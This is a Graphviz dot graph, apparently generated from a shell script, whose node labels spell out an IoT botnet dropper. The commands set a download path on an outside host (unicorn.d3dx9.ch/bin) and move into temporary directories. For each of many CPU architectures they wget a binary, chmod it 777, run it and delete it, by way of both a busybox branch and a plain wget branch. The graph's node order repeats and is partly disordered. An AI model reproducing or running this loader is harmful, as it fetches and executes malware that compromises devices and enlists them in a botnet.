 digraph {
0 [label="ulimit -n 712 "];
0 -> 0
2 [label="path=http://unicorn.d3dx9.ch/bin "];
2 -> 2
4 [label="mips=mips "];
4 -> 6 [label="N,"];
6 [label="mipsel=mipsel "];
6 -> 8 [label="N,"];
8 [label="armv4l=armv4l "];
8 -> 10 [label="N,"];
10 [label="armv5l=armv5l "];
10 -> 10
12 [label="armv6l=armv6l "];
12 -> 12
14 [label="armv7l=armv7l "];
14 -> 14
16 [label="i586=i586 "];
16 -> 16
18 [label="i686=i686 "];
18 -> 18
20 [label="m68k=m68k "];
20 -> 20
22 [label="sh4=sh4 "];
22 -> 22
24 [label="powerpc=powerpc "];
24 -> 24
26 [label="powerpc440fp=powerpc440fp "];
26 -> 28 [label="N,"];
28 [label="x86_64=x86_64 "];
28 -> 28
30 [label="[ -f /bin/busybox ] "];
30 -> 560 [label="SC,N,if,"];
560 [label="cd /tmp "];
560 -> 562 [label=";,then,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 44 [label=";,"];
44 [label="/bin/busybox wget $path/$mips "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox cat $mips busybox "];
46 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 68 [label=";,"];
68 [label="/bin/busybox wget $path/$mipsel "];
68 -> 70 [label=";,"];
70 [label="/bin/busybox cat $mipsel busybox "];
70 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 92 [label=";,"];
92 [label="/bin/busybox wget $path/$armv4l "];
92 -> 94 [label=";,"];
94 [label="/bin/busybox cat $armv4l busybox "];
94 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 116 [label=";,"];
116 [label="/bin/busybox wget $path/$armv5l "];
116 -> 118 [label=";,"];
118 [label="/bin/busybox cat $armv5l busybox "];
118 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 140 [label=";,"];
140 [label="/bin/busybox wget $path/$armv6l "];
140 -> 142 [label=";,"];
142 [label="/bin/busybox cat $armv6l busybox "];
142 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 164 [label=";,"];
164 [label="/bin/busybox wget $path/$armv7l "];
164 -> 166 [label=";,"];
166 [label="/bin/busybox cat $armv7l busybox "];
166 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 188 [label=";,"];
188 [label="/bin/busybox wget $path/$i586 "];
188 -> 190 [label=";,"];
190 [label="/bin/busybox cat $i586 busybox "];
190 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 212 [label=";,"];
212 [label="/bin/busybox wget $path/$i686 "];
212 -> 214 [label=";,"];
214 [label="/bin/busybox cat $i686 busybox "];
214 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 236 [label=";,"];
236 [label="/bin/busybox wget $path/$m68k "];
236 -> 238 [label=";,"];
238 [label="/bin/busybox cat $m68k busybox "];
238 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 260 [label=";,"];
260 [label="/bin/busybox wget $path/$sh4 "];
260 -> 262 [label=";,"];
262 [label="/bin/busybox cat $sh4 busybox "];
262 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 284 [label=";,"];
284 [label="/bin/busybox wget $path/$powerpc "];
284 -> 286 [label=";,"];
286 [label="/bin/busybox cat $powerpc busybox "];
286 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 308 [label=";,"];
308 [label="/bin/busybox wget $path/$powerpc440fp "];
308 -> 310 [label=";,"];
310 [label="/bin/busybox cat $powerpc440fp busybox "];
310 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 330 [label="||,"];
330 [label="/bin/busybox cp /bin/busybox . "];
330 -> 332 [label=";,"];
332 [label="/bin/busybox wget $path/$x86_64 "];
332 -> 334 [label=";,"];
334 [label="/bin/busybox cat $x86_64 busybox "];
334 -> 336 [label=";,"];
336 [label="busybox "];
336 -> 336
338 [label="/bin/busybox chmod 777 busybox "];
338 -> 340 [label=";,"];
340 [label="./busybox "];
340 -> 342 [label=";,"];
342 [label="rm -rf busybox "];
342 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,else,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 354 [label="||,"];
354 [label="wget $path/$mips "];
354 -> 356 [label=";,"];
356 [label="chmod 777 $mips "];
356 -> 358 [label=";,"];
358 [label="./$mips "];
358 -> 360 [label=";,"];
360 [label="rm -rf $mips "];
360 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 372 [label="||,"];
372 [label="wget $path/$mipsel "];
372 -> 374 [label=";,"];
374 [label="chmod 777 $mipsel "];
374 -> 376 [label=";,"];
376 [label="./$mipsel "];
376 -> 378 [label=";,"];
378 [label="rm -rf $mipsel "];
378 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 390 [label="||,"];
390 [label="wget $path/$armv4l "];
390 -> 392 [label=";,"];
392 [label="chmod 777 $armv4l "];
392 -> 394 [label=";,"];
394 [label="./$armv4l "];
394 -> 396 [label=";,"];
396 [label="rm -rf $armv4l "];
396 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 408 [label="||,"];
408 [label="wget $path/$armv5l "];
408 -> 410 [label=";,"];
410 [label="chmod 777 $armv5l "];
410 -> 412 [label=";,"];
412 [label="./$armv5l "];
412 -> 414 [label=";,"];
414 [label="rm -rf $armv5l "];
414 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 426 [label="||,"];
426 [label="wget $path/$armv6l "];
426 -> 428 [label=";,"];
428 [label="chmod 777 $armv6l "];
428 -> 430 [label=";,"];
430 [label="./$armv6l "];
430 -> 432 [label=";,"];
432 [label="rm -rf $armv6l "];
432 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 444 [label="||,"];
444 [label="wget $path/$armv7l "];
444 -> 446 [label=";,"];
446 [label="chmod 777 $armv7l "];
446 -> 448 [label=";,"];
448 [label="./$armv7l "];
448 -> 450 [label=";,"];
450 [label="rm -rf $armv7l "];
450 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 462 [label="||,"];
462 [label="wget $path/$i586 "];
462 -> 464 [label=";,"];
464 [label="chmod 777 $i586 "];
464 -> 466 [label=";,"];
466 [label="./$i586 "];
466 -> 468 [label=";,"];
468 [label="rm -rf $i586 "];
468 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 480 [label="||,"];
480 [label="wget $path/$i686 "];
480 -> 482 [label=";,"];
482 [label="chmod 777 $i686 "];
482 -> 484 [label=";,"];
484 [label="./$i686 "];
484 -> 486 [label=";,"];
486 [label="rm -rf $i686 "];
486 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 498 [label="||,"];
498 [label="wget $path/$m68k "];
498 -> 500 [label=";,"];
500 [label="chmod 777 $m68k "];
500 -> 502 [label=";,"];
502 [label="./$m68k "];
502 -> 504 [label=";,"];
504 [label="rm -rf $m68k "];
504 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 516 [label="||,"];
516 [label="wget $path/$sh4 "];
516 -> 518 [label=";,"];
518 [label="chmod 777 $sh4 "];
518 -> 520 [label=";,"];
520 [label="./$sh4 "];
520 -> 522 [label=";,"];
522 [label="rm -rf $sh4 "];
522 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 534 [label="||,"];
534 [label="wget $path/$powerpc "];
534 -> 536 [label=";,"];
536 [label="chmod 777 $powerpc "];
536 -> 538 [label=";,"];
538 [label="./$powerpc "];
538 -> 540 [label=";,"];
540 [label="rm -rf $powerpc "];
540 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 552 [label="||,"];
552 [label="wget $path/$powerpc440fp "];
552 -> 554 [label=";,"];
554 [label="chmod 777 $powerpc440fp "];
554 -> 556 [label=";,"];
556 [label="./$powerpc440fp "];
556 -> 558 [label=";,"];
558 [label="rm -rf $powerpc440fp "];
558 -> 560 [label=";,"];
560 [label="cd /tmp "];
560 -> 562 [label="\n,"];
562 [label="cd /var/run "];
562 -> 564 [label="||,"];
564 [label="cd /dev/shm "];
564 -> 566 [label="||,"];
566 [label="cd /mnt "];
566 -> 568 [label="||,"];
568 [label="cd /var "];
568 -> 570 [label="||,"];
570 [label="wget $path/$x86_64 "];
570 -> 572 [label=";,"];
572 [label="chmod 777 $x86_64 "];
572 -> 574 [label=";,"];
574 [label="./$x86_64 "];
574 -> 575 [label=";,"];
}
